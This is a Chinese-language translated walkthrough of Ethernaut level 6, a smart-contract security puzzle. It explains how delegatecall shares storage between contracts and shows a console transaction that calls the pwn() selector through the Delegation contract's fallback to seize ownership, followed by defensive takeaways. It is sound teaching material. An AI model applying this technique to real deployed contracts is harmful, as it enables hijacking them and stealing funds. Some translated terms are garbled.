


# Ethernaut Lvl 6 委托演练:如何滥用微妙的委托调用

> 原文：<https://medium.com/coinmonks/ethernaut-lvl-6-walkthrough-how-to-abuse-the-delicate-delegatecall-466b26c429e4?source=collection_archive---------2----------------------->

## 这是一个围绕[齐柏林](https://openzeppelin.org/)团队的[智能合约安全拼图](https://ethernaut.zeppelin.solutions/)的[深度系列](/@nicolezhu)。我会给你直接的资源和你需要的关键概念来 100%自己解决这些难题。

这个等级要求你声明你所得到的实例的所有权。

# `Delegatecall`

> 委托调用是一个特殊的低级函数调用，旨在**从另一个(通常是库)契约**中调用函数。

delegatecall()的优点是，您可以保留当前调用契约的上下文。这个上下文包括它的`storage`和它的`msg.sender`、`msg.value`属性。

> **关于存储的快速说明**:以太坊在存储“槽”中存储数据，这些槽是 32 字节大小的槽。每次你保存一个变量到存储器，它会自动占用当前槽或序列中下一个槽的剩余空间。

在下图中，契约 A 对契约 B 的`saveX()`函数进行委托调用，该函数**最终改变了契约 A 的存储**。让我们一步一步来:



首先，契约 A 通过 delegatecall 调用`saveX`函数。**委托调用** **用调用契约**的存储覆盖契约 B 的存储，又名`Storage A`。

接下来，执行`saveX`函数。请注意，最初，合同 B 将`bar`存储到存储`slot 0`。因此，当这个函数现在引用变量`bar`时，它再次查看`slot 0`。

然而，`slot 0`现在是指向`foo`的引用指针。因此`foo`被设置为`x`。`bar`仍在范围之外，未被触及。

> **tl:dr** :当契约 A 对契约 B 进行委托调用时，它允许契约 B 自由地对其存储 A 进行变异。

显然，当开发人员在**不安全的存储上下文**中使用 delegatecall()时，或者从恶意的库继承时，就会出现安全风险(稍后将详细介绍)。

> **From**[**Solidity docs**](https://solidity.readthedocs.io/en/v0.4.24/units-and-global-variables.html?highlight=delegatecall):如果通过一个低级 **delegatecall** 访问存储变量，那么两个契约的存储布局必须对齐，这样被调用的契约才能正确地通过名字访问调用契约的存储变量。当然，如果存储指针作为函数参数传递，就不是这种情况了，就像高级库的情况一样。

现在，利用您对 delegatecall()的深入理解来获得该级别合同的所有权！



# 详细演练

1.  通知`Delegation.sol`对图书馆合同`Delegate.sol`做出`delegatecall`
2.  注意`Delegate.sol`有一个名为 pwn()的公共函数，它将`owner`变量的所有权改变为调用该函数的人！

```
contract Delegate {
    address public owner;   // Occupies slot 0
    ... function pwn() public {
        owner = msg.sender; // Save msg.sender to slot 0
    }
}
```

3.注意您的委托契约的`slot 0`也存储了`owner`，这正是您想要更改的变量！此外，如果您设法调用`Delegation.sol`中的 fallback 函数来调用`pwn()`，您将成为调用契约的所有者。

```
function() public {
    if(delegate.delegatecall(msg.data)) {
        this; 
    }
}
```

4.请记住，在以太坊中，您可以通过在事务中发送`data`来调用公共函数。格式如下:

```
contractInstance.call(**bytes4**(**sha3**("functionName(inputType)"))
```

5.使用 Remix IDE 或控制台，调用`Delegation.sol`的回退功能:

```
// I did so in the console, having already computed
// the bytes4(sha3("pwn()"))await sendTransaction({
  from: "0x1733d5adaccbe8057dba822ea74806361d181654",
  to: "0xe3895c413b0035512c029878d1ce4d8702d02320",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

6.`await contract.owner()`显示你现在是主人了！

**提示**:您可以通过 Remix 调试器(在 Javascript VM 模式下)来查看存储上下文是如何变化的！你可以在 Remix 调试器的`storage fully loaded`下拉菜单中找到存储槽。

> 恭喜你，你现在已经再现了[$ 3000 万奇偶校验攻击背后的核心漏洞](https://blog.zeppelin.solutions/on-the-parity-wallet-multisig-hack-405a8c12e8f7)！

# 关键安全要点

*   使用更高级的`call()`函数从库继承，特别是当你 I)不需要改变契约存储和 ii)不关心气体控制的时候。
*   当从一个打算改变你的契约的存储的库继承时，确保你的存储槽与库的存储槽对齐，以避免这些边缘情况。
*   对调用 delegatecalls 的函数进行身份验证和条件检查。
*   [出于安全考虑，阅读坚固性文件](https://solidity.readthedocs.io/en/v0.4.24/security-considerations.html)。

# 更多级别

[](/coinmonks/ethernaut-lvl-5-walkthrough-how-to-abuse-arithmetic-underflows-and-overflows-2c614fa86b74) [## Ethernaut Lvl 5 令牌演练:如何滥用算术下溢和溢出

### 这是一个围绕齐柏林飞艇团队智能合同安全难题的深入系列。我会给你直接的资源…

medium.com](/coinmonks/ethernaut-lvl-5-walkthrough-how-to-abuse-arithmetic-underflows-and-overflows-2c614fa86b74) [](/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57) [## Ethernaut Lvl 7 力量演练-如何自毁和创建一个 Ether 黑洞

### 这是一个围绕齐柏林飞艇团队智能合同安全难题的深入系列。我们学习关键的坚固性概念来…

medium.com](/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57) 

> [直接在您的收件箱中获取最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[](https://coincodecap.com/?utm_source=coinmonks)